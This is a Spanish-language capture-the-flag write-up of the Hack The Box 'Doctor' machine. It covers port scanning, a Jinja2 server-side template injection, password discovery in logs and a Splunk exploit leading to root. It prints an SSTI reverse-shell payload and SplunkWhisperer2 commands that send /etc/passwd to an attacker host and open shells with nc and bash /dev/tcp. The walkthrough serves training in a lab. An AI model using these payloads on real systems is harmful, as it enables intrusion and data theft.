


| NOMBRE      | Plataforma | OS     |
| :---        |    :----:   |  ---: |
| DOCTOR      | HACKTHEBOX   | LINUX   |

## Conceptos 

- Nmap
- Exploit
- Revershell
- Dominio
- SSTI
- Recursivo
- Logs

## Nmap

Haciendo uso de la herramiento nmap, se escanea los puertos del hosts que se desea atacar

```bash
nmap -p- --open --min-rate 5000 -vvv -Pn -oG allportsScan 10.10.10.209
```

- Identificando los puuertos abiertos: `22, 80, 8089`

Una vez identificado los puetos que estan abiertos, se procede a escanear y identificar los servicio como las versiones que se ejecutan.

```bash
nmap -p22,80,8089 -sCV -Pn -vvv -oN servicesScan 10.10.10.209
```

- Tenemos los servicios y versiones que ejecutan en dichos puertos

```bash
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzyPiL1j9E6lyOgxqgosQ64mBwocTGo1DpclHHV5w28qPbnBJL32hfDNgUhAeaq7PL8zOQlKWprEnkfBNTUagvcX7deMgPsJ6zow/K+WPqIUU5+LbQQ9TV6YeiWiPrO1W9dwwY0ZTXkkG6905kLDsKtCQZqt0VUGPiyWnZswXwWjbBo9KBF1dctUKv+MuyPLQ2qAr5X9LL21/tWw0fLrIKLkCvdaMI9tVYXeFNZ1WyJSI4BfCB5OrNzpr4RN/CaGSjSiBGn2zkegsk+zJpePSp9qfP/fMwEyDQ1c8kei0g35Neaw5Mob1q3R0L6w8fTAnsYo9bYlnHNOl4Juon0QaOfzDry/c4Hmwi43ypeUlv2zUdgGDUdemG79/nHx/rtLbBvdROI3UIjn6HOweHJs9VmwUjx509xZGoCwRcB0lIrDg9pWitWbg+qMTBvvYrLWgSovjpnilu8OcVituQHoXrrLMFVREY0SzF7K6SqbBO7QTrKODzrf1aH5gdgQNCE18=
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOHMC7+4t7zcs7cPg4JoOZiJF+MiORNU6ky66rLocXDEySgRgkeNf2uzjblvpnn2QYid7TCQUwQ/6Bbz2yFM7jg=
|   256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEF0lJKhEknY94/rK0D2et4K9Tp2E6CsYp0GxwdNJGhs
80/tcp   open  http     syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Doctor
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http syn-ack Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23 4e5c 546d 8895 0f5f 8f42 5e90 6787
| SHA-1: 7ec9 1bb7 343f f7f6 bdd7 d015 d720 6f6f 19e2 098b
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQC3IKogA4zEAzANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yMDA5MDYxNTU3MjdaFw0yMzA5MDYxNTU3
| MjdaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0JgJ
| NKrC4SrGzEhhyluUIcBW+eD6y+4paEikip5bzO7Xz8+tVJmFBcDfZdkL3TIZFTCF
| 95BMqL4If1SNZlFQxpMZB/9PzCMm0HmhEK/FlHfdrLwaeK71SWeO/MMNtsAheIPA
| pNByri9icp2S9u7wg89g9uHK4ION8uTJMxbmtCRT4jgRcenOZYghvsTEMLPhwlb2
| M/59WRopfyakIEl/w/zF1jCfnrT6XfZtTos6ueet6lhjd8g5WW9ZJIfmjYDaqHPg
| Tg3yLCRjYhLk+2vLyrO23l5kk8H+H4JgIOCqhAw38hC0r+KETsuWCGIxl4rBBDQw
| E5TvP75NsGW2O3JNDQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQBJjjx+KHFwYJei
| lMJlmXBOEs7V1KiAjCenWd0Bz49Bkbik/5Rcia9k44zhANE7pJWNN6gpGJBn7b7D
| rliSOwvVoBICHtWFuQls8bRbMn5Kfdd9G7tGEkKGdvn3jOFkQFSQQQ56Uzh7Lezj
| hjtQ1p1Sg2Vq3lJm70ziOlRa0i/Lk7Ydc3xJ478cjB9nlb15jXmSdZcrCqgsAjBz
| IIDPzC+f7hJYlnFau2OA5uWPX/HIR7JfQsKXWCM6Tx0b9tZKgNNOr+DwyML4CH6o
| qrryh7elUJojAaZ0wYNd5koGZzEH4ymAQoshgFyEgetm1BbzMbA3PfZkX1VR6AV+
| guO5oa9R
|_-----END CERTIFICATE-----
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Enumeración web

### Puerto 80

 

Con la ayuda de `whatweb` enumeramos el sitio web, en donde encontramos un dominio 

```bash
whatweb http://10.10.10.209
```


Dominio : `doctors.htb` 

Antes de ingresar al sitio web con el nombre de dominio, debemos poner en nuestra archivo `/etc/hosts`

#### Registro

El sitio web nos lleva a un panel de logueo y registro

- Panel de login


- Panel de registro 


Creamos una cuenta con los siguientes datos:

```
seven@doctors.htb : seven
```

Tenemos 20 minutos antes de que eliminen nuestra cuenta registrada


Haciendo uso de wappalyzer identificamos que hace uso de Flask 1.0.1, esto me llevó a probar un Server Side Template Injection(SSTI)


Podemos crear un mensaje el cual es visible, entonces podemos manejar el output y probar un SSTI


Prueba de un posible SSTI


Al ver el codigo fuente de la página, podemos observar una ruta en la web.

`<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->`
`/archive`




Al ingresar la ruta `http://doctors.htb/archive` y observar el codigo fuente de la página, podemos observar que estamos ante un SSTI y probar a ejecutar comandos.


Haciendo uso del siguiente [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---read-remote-file) se puede ejecutar comandos 

```python
{{'self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()'}} 
```


Haciendo uso del siguiente payload se puede obtener una shell interactiva

[Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)

```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endraw%%}
```
Entonces obtendremos una consola interactiva con el usuario `web` 

## User web


El usuario `web` pertenece al grupo [`adm`](https://nozerobit.github.io/linux-privesc-groups/#adm-group) , este grupo le permite leer y modificarlos `logs` 


Lista de logs del sistema


Realizamos una busqueda recursiva en todos los archivos  con la palabra `pass` 

```bash
web@doctor:/var/log$ grep -r -i "pass" 2>/dev/null
```


```bash
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
Encontramos una contraseña `Guitar123`, la cual es la contraseña del usuario ``shaun`

## User shaun

### Puerto 8089 

El tener expuesto la versión puede llevarnos a encontrar alguna vulnerabilidad, este es el caso. Observamos la versión `8.0.5` y si buscamos con searchsploit encontrnamos un exploit para poder explotar el servicio
 


### Exploit Splunk build 8.0.5

[https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)

```bash
>python PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username "shaun" --password "Guitar123" --payload "curl -F 'data=@/etc/passwd' http://10.10.14.18:80" --lhost 10.10.14.18
```

Ejecutando el exploit y poniendo ncat a la escucha en el puerto que indicamos con el exploit, podemos obtener la información del archivo que le indicamos.

Ejecución del exploit.


Ncat. 


Al igual que podemos leer archivos de la computadora víctima tambien podemos ejecutar comandos.
## user root
Para obtener una shel, podemos realizarlo ed dos maneras.

- Manera N° 1

```bash
❯ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username "shaun" --password "Guitar123" --payload 'nc.traditional -e /bin/bash 10.10.14.18 443' --lhost 10.10.14.18
```
- Manera N° 2
```bash
python PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username "shaun" --password "Guitar123" --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.18/443 0>&1'" --lhost 10.10.14.18
```
Y poniendo a ncat a la escucha en el puerto `443`, que puede variar segun le indiques. Terminamos obteniendo una shell como el usario root.


